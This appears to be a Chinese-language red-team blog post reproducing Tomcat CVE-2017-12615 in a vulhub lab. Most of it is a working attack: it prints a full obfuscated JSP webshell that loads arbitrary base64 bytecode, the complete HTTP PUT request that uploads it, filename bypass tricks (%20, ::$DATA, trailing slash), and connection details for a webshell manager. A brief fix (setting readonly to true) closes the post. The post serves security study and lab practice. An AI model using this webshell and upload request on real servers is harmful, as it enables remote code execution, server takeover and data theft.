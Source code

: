```yaml
---
title: 【Tomcat漏洞复现】CVE-2017-12615任意文件写入
date: 2025-09-04
categories:
  - Web攻防
  - 红队
  - 靶场
image: images/34.webp
---
```

# 漏洞详情
当 Tomcat 运行在 Windows 系统且启用了 HTTP PUT 方法（通过将 `readonly` 参数设置为 `false`）时，攻击者可构造恶意请求上传 JSP 文件，导致服务器执行任意代码，进而引发数据泄露或服务器权限被控制。
**关键点：**
- **触发条件**：需手动修改 `conf/web.xml` 文件中的 `readonly` 参数为 `false`（默认值为 `true`，PUT/DELETE 方法被禁用）。
- **绕过限制**：Tomcat 默认通过 `JspServlet` 处理 `.jsp` 文件的上传，但攻击者可通过以下方式绕过限制，使文件由处理静态资源的 `DefaultServlet` 处理：
    - 文件名后添加空格（`evil.jsp%20`，利用 Windows 不允许文件名以空格结尾的特性）。
    - 使用 NTFS 文件流特性（`evil.jsp::$DATA`）。
    - 文件名后添加斜杠（`evil.jsp/`，此方法甚至影响 Linux 系统及 Tomcat 5.x-9.x 版本）4711。
**影响范围：**
- **受影响的 Tomcat 版本**：
    - Apache Tomcat 7.0.0 至 7.0.81（官方公告范围）。
    - 部分测试显示 Tomcat 8.5.19 等版本也可能受影响。
- **操作系统**：主要针对 Windows，但通过添加斜杠的绕过方式（`evil.jsp/`）可扩展至 Linux 系统。
**攻击思路：**
​ 上传木马文件，webshell管理工具进行连接
# 环境搭建
使用vulhub进行搭建：
```
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
docker ps
http://192.168.197.140:8080/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904133115.png)
# 漏洞复现
**burpsuite抓包**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904133228.png)
使用`webshell generate`快速生成木马，项目地址：
```
https://github.com/cseroad/Webshell_Generate
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904133326.png)
一句话木马：
```
<%  String H9991 = request.getParameter("123");if (H9991 != null) { class EdnMF480 extends/*Z#гдh*u@!h0S4OG4fI8*/ClassLoader { EdnMF480(ClassLoader L0YKXC) { super(L0YKXC); } public Class H9991(byte[] b) { return super.defineClass(b, 0, b.length);}}byte[] bytes = null;try {int[] aa = new int[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98}; String ccstr = "";for (int i = 0; i < aa.length; i++) {aa[i] = aa[i] ^ 16; ccstr = ccstr + (char) aa[i];}Class A001M = Class.forName(ccstr);String k = new String(new byte[]{100,101,99,111,100,101,66,117,102,102,101,114});bytes = (byte[]) A001M.getMethod(k, String.class).invoke(A001M.newInstance(), H9991);}catch (Exception e) {bytes = javax.xml.bind.DatatypeConverter.parseBase64Binary(H9991);}Class aClass = new EdnMF480(Thread.currentThread().getContextClassLoader()).H9991(bytes);Object o = aClass.newInstance();o.equals(pageContext);} else {} %>
```
将生成的木马上传。这里使用**PUT**方法进行上传，文件名可以是`/xxx.jsp/`、`/xxx.jsp%20`、`/xxx::$DATA`
```
PUT /123.jsp/ HTTP/1.1
Host: 192.168.197.140:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 946

<%  String H9991 = request.getParameter("123");if (H9991 != null) { class EdnMF480 extends/*Z#гдh*u@!h0S4OG4fI8*/ClassLoader { EdnMF480(ClassLoader L0YKXC) { super(L0YKXC); } public Class H9991(byte[] b) { return super.defineClass(b, 0, b.length);}}byte[] bytes = null;try {int[] aa = new int[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98}; String ccstr = "";for (int i = 0; i < aa.length; i++) {aa[i] = aa[i] ^ 16; ccstr = ccstr + (char) aa[i];}Class A001M = Class.forName(ccstr);String k = new String(new byte[]{100,101,99,111,100,101,66,117,102,102,101,114});bytes = (byte[]) A001M.getMethod(k, String.class).invoke(A001M.newInstance(), H9991);}catch (Exception e) {bytes = javax.xml.bind.DatatypeConverter.parseBase64Binary(H9991);}Class aClass = new EdnMF480(Thread.currentThread().getContextClassLoader()).H9991(bytes);Object o = aClass.newInstance();o.equals(pageContext);} else {} %>
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904133512.png)
返回**201**即上传成功，使用蚁剑进行连接
```
http://192.168.197.140:8080/123.jsp
密码：123
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904133602.png)
# 绕过姿势
```
1.Windows下不允许文件以空格结尾以
PUT /a001.jsp%20 HTTP/1.1上传到 Windows会被自动去掉末尾空格

2.WindowsNTFS流
Put/a001.jsp::$DATA HTTP/1.1

3. /在文件名中是非法的， 也会被去除（Linux/Windows） 
Put/a001.jsp/http:/1.1
```
# 修复建议
把readonly 改成true
```
<init-param> <param-name>readonly</param-name> <paramvalue>true</param-value></init-param>
```